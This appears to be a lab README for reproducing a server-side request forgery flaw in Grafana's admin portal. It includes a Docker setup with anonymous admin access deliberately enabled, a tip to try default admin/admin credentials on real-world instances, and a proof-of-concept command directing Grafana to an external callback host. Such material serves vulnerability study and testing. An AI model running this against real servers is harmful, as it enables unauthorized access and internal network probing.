


# Grafana Admin Portal SSRF

[中文版本（Chinese Version）](README.zh-cn.md)

Grafana is a multi-platform open source analytics and interactive visualization web application.

The admin user is able to make requests to an unintended location in all versions of Grafana.

References:

- <https://github.com/RandomRobbieBF/grafana-ssrf>

## Vulnerable environment

Execute following command to start a Grafana 8.5.4:

```
docker-compose up -d
```

Then you can see the portal page for Grafana without the authentication in `http://your-ip:3000`, because this server enabled the anonymous as admins by:

```ini
[auth.anonymous]
enabled = true
org_role = Admin
```

If Grafana ask you for user credentials in real world, can try default `admin` and `admin`.

## Vulnerability Reproduce

Use [this POC](https://github.com/RandomRobbieBF/grafana-ssrf) to reproduce the SSRF:

```
python grafana-ssrf.py -H http://your-ip:3000 -u http://example.interact.sh/attack
```



As you can see, I got the request from Grafana:


